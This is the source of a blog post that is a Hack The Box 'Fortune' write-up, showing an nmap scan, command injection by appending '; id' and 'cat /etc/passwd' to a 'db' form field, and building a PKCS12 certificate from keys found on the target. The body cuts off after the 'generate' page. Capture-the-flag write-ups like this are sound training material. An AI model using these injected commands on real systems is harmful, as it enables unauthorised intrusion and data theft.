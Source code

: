 ```yaml
---
layout: post
title:  "Hack The Box: 'Fortune' Writeup"
image: ''
date:   2019-08-05 00:09:53
tags:
- hackthebox
- pkcs12 certificate
- RCE
- nfs share
- pgadmin4
- sqlite3
- crypto

description: ''
categories:
- Hack The Box
---
```


<style>

#myBtn {
  display: none;
  position: fixed;
  bottom: 40px;
  right: 50px;
  z-index: 99;
  font-size: 12px;
  border: 1px solid black;
  outline: black;
  background-color: #262626;
  color: white;
  cursor: pointer;
  padding: 10px 15px 10px 15px;
  border-radius: 1px;
  font-family: 'Open Sans';
}

#myBtn:hover {
  background-color: #5d4d7a;
}

applause-button {
		margin: auto;
	}

	.header-site .site-title {
      	padding-top: 5px;
      	color: white;
      	text-align: center;
      	font-weight: bold;
      	padding-left: 19px;
	}
	
	.fortune-img {
		max-width: 75%;
	}

	.post-content img { 
		margin: 1.875rem auto;
		display: block;
	}
</style>

<button onclick="topFunction()" id="myBtn" title="Go to top">Go to top</button>

<script>
// When the user scrolls down 20px from the top of the document, show the button
window.onscroll = function() {scrollFunction()};

function scrollFunction() {
  if (document.body.scrollTop > 20 || document.documentElement.scrollTop > 20) {
    document.getElementById("myBtn").style.display = "block";
  } else {
    document.getElementById("myBtn").style.display = "none";
  }
}

// When the user clicks on the button, scroll to the top of the document
function topFunction() {
  document.body.scrollTop = 0;
  document.documentElement.scrollTop = 0;
}
</script>

<!-- add the button style & script -->
<link rel="stylesheet" href="/assets/css/applause-button.css" />
<script src="/assets/js/applause-button.js"></script>

<img src="/assets/img/writeups/HTB-FORTUNE/HTB-FORTUNE-BADGE.PNG" class="fortune-img" alt="Hack The Box - Fortune">

<p><br></p>
### TL;DR 
There might not necessarily be anything "new" in this box if you've done all of the previous ones, but it's my absolute personal favorite. Thank you so much <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a> for creating it. I was so sad when it retired! 😢
<p><br></p>

### Overview

The `Fortune` machine on Hack The Box (created by <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a>) is a retired 50 point OpenBSD machine with some pretty interesting parts to it. If you have completed all of the previous boxes on Hack The Box, then `Fortune` should be pretty simple, as there is nothing particularly new introduced.
<p><br></p>

The box starts with simple web enumeration to locate RCE found in the site's `db` variable, which occurs when a semi colon (;) is appended to the end of the `db`. Next, some files are located via the RCE that can be used to create a PKCS12 certificate which permits access to port 443. From there, an SSH key is located to access the user called `nfsuser` and escalate to the user `charlie` by mounting a newly found nfs share and using `su` to access `charlie` with a local user that has the same UID. SSH keys for `charlie` are then used to access the user via SSH and enumerate further.
<p><br></p>

Finally, there is a `pgadmin4` database running on the box which contains hashes for the root password. A file called `crypto.py` is utilized for `pgadmin4's` encoding/decoding process, and can be used here to decode the root password and ultimately grab the flag.
<p><br></p>

### Nmap Scan

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@rattLR:~/HTB-FORTUNE# nmap -sC -sV -A -Pn 10.10.10.127

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 11:27 EST
Nmap scan report for 10.10.10.127
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (EdDSA)
80/tcp  open  http       syn-ack OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https? syn-ack
|_ssl-date: TLS randomness does not represent time
</code></pre></div></div>

So, it appears port `443` is HTTPS (as expected), but it requires an SSL certificate to access it. I'll leave it alone for now because of this. However, port `80` proves to be quite interesting.
<p><br></p>

### Web Enumeration

Here's what I discovered upon navigating to `http://10.10.10.127/` in my browser:

<img src="/assets/img/writeups/HTB-FORTUNE/fortune-homepage.PNG" class="fortune-img" alt="Hack The Box - Fortune Homepage">

Hmm... 

Let's try capturing a request with `Burp Suite`!

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes
```

The `db` variable looks pretty spicy! 🌶️

After running `wfuzz`, I discovered I could append a semi colon (;) to `db` and execute commands on the box, like so:

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes; id
```

And the response:
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Wed, 24 Jul 2019 12:27:19
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
```

Nice! We have code execution. Let's have a look around to see what else we can find. 
<p><br></p>

### File Enumeration & NFS Share Access

(Shortened output for readability):

```
db=fortunes;cat /etc/passwd

charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Well, well, well... It would appear we have three different users here. They are `charlie`, `bob`, and `nfsuser`. Immediately, `nfsuser` appears interesting to me given the naming convention. The username `nfsuser` can easily be attributed to an `nfs share`! Now, this is great and all, but I still don't know how to access these users, nor am I able to add my own `ssh` keys... I was able to `ping` myself at this point, but couldn't manage to get a shell back.
<p><br></p>

However, I did some snooping around and discovered some files in the user `bob`'s home directory (`/home/bob`). There was one cert file (`intermediate.cert.pem`) and one key file (`intermediate.key.pem`), which can be converted to a PKCS12 certificate. I used `openssl` to create the certificate, like so:

```
openssl pkcs12 -export -out fortune.htb.p12 -in intermediate.cert.pem -inkey intermediate.key.pem
```
I was then able to import the certificate with Firefox and access the (now unrestricted) `HTTPS` port, `443`.

The `HTTPS` homepage displayed this message upon my first visit:

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>You will need to use the local authpf service to obtain elevated network access. 
If you do not already have the appropriate SSH key pair, then you will need 
to <a href="https://10.10.10.127/generate">generate</a> one and configure your local system appropriately to proceed.
</code></pre></div></div>

I clicked on `generate` and it redirected me to a page that looked like this:

<div align="center">
	<h3> Thanks for reading! </h3>
</div>
<div align="center">
<!-- add the button! -->
<applause-button style="width: 58px; height: 58px;" color="#5d4d7a" url="https://defarbs.com/"/>
</div>
<div align="center">
	<a href="https://www.hackthebox.eu/profile/39047">
		<img htb-logo="image" src="https://www.hackthebox.eu/badge/image/39047" alt="Hack The Box">
	</a>
</div>